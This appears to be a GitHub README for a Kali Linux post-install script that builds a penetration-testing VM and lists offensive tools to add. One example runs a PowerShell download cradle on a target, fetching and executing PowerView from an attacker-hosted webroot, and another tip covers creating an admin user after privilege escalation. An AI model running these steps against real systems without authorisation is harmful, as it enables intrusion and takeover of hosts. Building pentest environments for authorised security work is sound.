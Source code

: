 # Kali-Clean

![screenshot](./images/screenshot.png?raw=true)

[xct/kali-clean](https://github.com/xct/kali-clean) with personal tweaks and borrowed ideas from [islanddog/kali-clean-pwnbox](https://github.com/islanddog/kali-clean-pwnbox).

This post-installation script is intended to be used on minimal Kali VM with no tools. I used [the official VM build script](https://gitlab.com/kalilinux/build-scripts/kali-vm) with the following options to get started. It should still work fine on a bare metal installation.

```
./build.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"
```

If you are building on a Windows machine:

- you will need WSL2
- install docker in WSL2

```
# confirm you are running WSL2
wsl --version

# start the docker service
sudo systemctl start docker

# continue building your kali VM
./build-in-container.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"

# copy from WSL to your Windows host (eg. Downloads folder)
cp -r images/kali-linux-rolling-vmware-amd64.vmwarevm /mnt/c/Users/<USER>/Downloads
```

## Installation

```
sudo -sE ./install.sh 2>install.err
```

## QoL Improvements vs default Kali
- Built in cheatsheets using [Navi](https://github.com/denisidoro/navi)
```
navi --print
# alias is 'n'
n
```
- Windows binaries symlinked into Apache webroot
```
# binaries located in /var/www/html/win/
sudo systemctl start apache2
# on target
IEX(New-Object Net.WebClient).DownloadString("http://<LHOST>/win/powerview.ps1")
```
- Modularity: Optional install scripts in `kali-clean/optional_installs/`
```
# example: you want to install python2 for legacy python exploits
# reference: https://www.kali.org/docs/general-use/using-eol-python-versions/
# simply run the following script from the optional_installs folder
./install_python2.sh
```
- IP address of `tun0` is displayed, no need to run `ip a` everytime
- Better firefox profile: Removed default bookmarks, added useful extensions (eg. foxyproxy) and made restore tabs on startup the default.

## TODOs

- [AD] https://github.com/eladshamir/Whisker
- [AD] https://github.com/ropnop/kerbrute
- Bloodhound to Bloodhound CE https://blog.spookysec.net//Deploying-BHCE/
- CrackMapExec to NetExec https://github.com/Pennyw0rth/NetExec
- Ligolo-ng as alternative to chisel https://github.com/nicocha30/ligolo-ng

## Checkout
Below are things I will get around to trying and will add them to the install script if I find them useful.
- https://github.com/trustedsec/unicorn
- https://github.com/sevagas/macro_pack
- https://github.com/Flangvik/SharpCollection
- https://github.com/bohops/GhostBuild
- https://github.com/AdrianVollmer/PowerHub
- https://github.com/BeichenDream/GodPotato
- https://github.com/antonioCoco/RunasCs
- Note: If using GodPotato, it's easier to create a new admin user and switch to them with RunasCs.

## Credit
- https://github.com/AyoItsYas/Mainte
